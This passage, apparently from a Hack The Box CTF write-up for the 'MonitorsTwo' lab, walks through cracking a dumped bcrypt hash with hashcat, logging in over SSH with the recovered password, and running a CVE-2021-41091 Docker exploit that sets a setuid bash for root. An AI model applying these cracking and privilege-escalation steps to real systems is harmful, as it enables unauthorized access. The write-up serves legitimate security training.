 ```
| 4 | marcus  | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |   0 | Marcus Brune  | marcus@monitorstwo.htb |           |         | on    | on    | on      | on       |     1 |       1 |      1 |      1 |           1 | on   |     -1 |    -1 |         | on   |        0 |    0 | 2135691668 |

+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

```
{% endcode %}

Found Marcus hash which seems to be _bcrypt $2\*$, Blowfish (Unix)_.&#x20;

```
marcus  | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C

```



{% code overflow="wrap" %}
```sh
hashcat -a 0 -m 3200 marcushash /usr/share/wordlists/rockyou.txt -w 3 -O -D 1,2
```
{% endcode %}

```
 $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkeyw
```

* Log into the machine as marcus

```
ssh marcus@10.10.11.21

cat user.txt
```

* Checked for docker version.

```
marcus@monitorstwo:~$ docker -

 Docker version 20.10.5+dfsg1, build 55c4c88v
 
```

* &#x20;Checked for vulnerabilities and found an exploit. ([CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091))
* &#x20;Downloaded the exploit on marcus machine and execute it.

{% code overflow="wrap" %}
```sh
marcus@monitorstwo:/tmp$ ./CVE-2021-41091.sh

 [!] Vulnerable to CVE-2021-41091

 [!] Now connect to your Docker container that is accessible and obtain root access !

 [>] After gaining root access execute this command (chmod u+s /bin/bash)

 

 Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): 
```
{% endcode %}
